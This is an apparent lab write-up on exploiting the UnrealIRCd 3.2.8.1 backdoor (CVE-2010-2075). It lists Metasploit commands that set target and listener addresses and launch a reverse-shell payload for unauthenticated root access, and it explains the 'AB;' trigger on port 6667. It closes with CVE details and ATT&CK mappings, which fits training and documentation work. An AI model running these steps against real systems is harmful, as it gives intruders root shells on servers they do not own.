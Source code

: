 # UnrealIRCd Backdoor Exploit (CVE-2010-2075)

# Summary
This exploit abuses a malicious backdoor embedded in UnrealIRCd 3.2.8.1, distributed via a compromised source archive in 2009. It allows unauthenticated remote code execution as root by sending commands prefixed with `AB;` to port 6667.

# Tools Used
- Metasploit Framework

# Steps Performed

1. Launched Metasploit:
   ```bash
   msfconsole

2. Load the module:
    use exploit/unix/irc/unreal_ircd_3281_backdoor

3. Set parameters:
    set RHOSTS 192.168.6.3
    set LHOST 192.168.6.4
    set LPORT 4444
    set PAYLOAD cmd/unix/reverse
    run

4. Verified shell(see screenshot)

# Outcome

Remote command execution as root

Immediate shell without authentication

# CVE details

CVE: CVE-2010-2075

Affected Version: UnrealIRCd 3.2.8.1

Mechanism: Hardcoded backdoor triggered by AB; prefix

# MITRE ATT&CK Mapping

T1210: Exploitation of Remote Services

T1059.003: Command and Scripting Interpreter: Unix Shell